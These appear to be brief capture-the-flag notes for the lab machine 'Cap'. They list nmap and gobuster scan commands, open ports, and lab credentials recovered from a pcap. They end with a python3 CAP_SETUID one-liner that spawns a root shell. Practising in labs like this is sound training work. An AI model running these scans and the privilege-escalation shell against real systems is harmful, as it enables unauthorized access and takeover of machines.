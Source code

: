 # Cap

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.10.245`

```
gobuster dir -u 10.10.10.245 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


### Open ports

```
21 vsftpd 3.0.3
22
80
```

## Users


* Got creds in 0.pcap

```
nathan
Buck3tH4TF0RM3!
```


## Endpoints

```
/data                 
/ip                                
/netstat                       
/capture
```


## Vuln

* it has python3 and we can execute and gain root priv (`python3_command.png`)

```
If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
```

* just go to `home` and type `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`